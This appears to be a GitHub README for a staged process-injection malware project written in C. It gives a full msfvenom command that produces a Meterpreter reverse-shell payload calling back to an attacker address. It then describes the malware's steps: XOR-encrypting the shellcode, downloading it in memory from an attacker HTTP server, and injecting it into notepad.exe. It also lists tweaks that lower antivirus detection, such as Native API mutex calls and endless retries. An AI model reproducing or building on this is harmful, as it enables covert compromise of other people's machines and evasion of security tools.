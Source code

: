 # Staged-Process-Injection-C
## Staged Process Injector with obfuscation Techniques including the Native API and offsets
### STAGE 0 ---> preparation

-Generatad payload with msfvenom
    
    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.100.13 LPORT=123 -f raw exitfunc=thread -o clear_code.bin

-Then I wrote a C program to XOR encrypt the bin file and write it out to an another file called "enc_code.bin"
    
### STAGE 1 --> connecting to HTTP server

-The malware connects to the attacker's HTTP server and downloads the encrypted shellcode "enc_code.bin".

-The encrypted shellcode is downloaded in memory.

### STAGE 2 --> Decryption

-It utilizes XOR decryption to decrypt the shellcode "enc_code.bin" in memory

### STAGE 3 --> Process Injection

-Then it enumerates all the processes in the system and searches for notepad.exe (you can change that in the enum_processes() function).

-The malware then injects the decrypted shellcode into the target process.


### EXECUTION

-I commented out most the printf statements to make it stealthier, you can uncomment them in the code and see the details.


![image](https://github.com/user-attachments/assets/6867d463-5a04-4c9d-9bbb-2328c46dc667)

![image](https://github.com/user-attachments/assets/28c4c66f-8a0e-42fd-b72f-fdc567b911d5)

![image](https://github.com/user-attachments/assets/b2b62806-0478-4f2d-ad48-92ee4f27932e)


### VirusTotal Analysis

![image](https://github.com/user-attachments/assets/dd34426d-d677-40fb-9864-1f6025d225e7)

### Updated (5th Feb 2025)

-I added the Native equivalant of CreateMutexA which are NtOpenMutant and NtCreateMutant.

-Also, I enhanced the http stage to be called infinitely if the server wasn't listening, ensuring that the malware never exits till it downloads the shellcode (enc_code.bin)

-The Native API Mutex enhancment decreased the detection rates from 7/72 to 5/72 in VirusTotal

![image](https://github.com/user-attachments/assets/12938834-6402-4ed8-910e-10a1e642d7cc)

